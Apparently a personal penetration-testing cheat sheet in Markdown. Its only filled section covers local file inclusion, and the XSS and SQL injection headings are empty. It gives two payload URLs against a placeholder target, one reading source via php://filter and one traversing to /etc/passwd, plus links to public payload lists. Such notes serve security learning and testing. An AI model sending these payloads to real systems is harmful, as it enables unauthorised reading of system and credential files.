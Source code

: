 # Exploitation
Tools and options I use for reconnaissance:
- [Web](#web)
  - [LFI](#lfi)
  - [XSS](#xss)
  - [SQL Injection](#sql-injection)

----

## Web
Techniques and tools I use for web exploitations.

### LFI (Local File Inclusion)

Example scenario:   
```bash
http://<target>/index.php?parameter=value
```

Validate LFI:   
```bash
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
# OR
http://<target>/index.php?page=../../../../../../../../etc/passwd
```

Useful links:   
- [Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
- [Seclist LFI intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)


### XSS

### SQL Injection
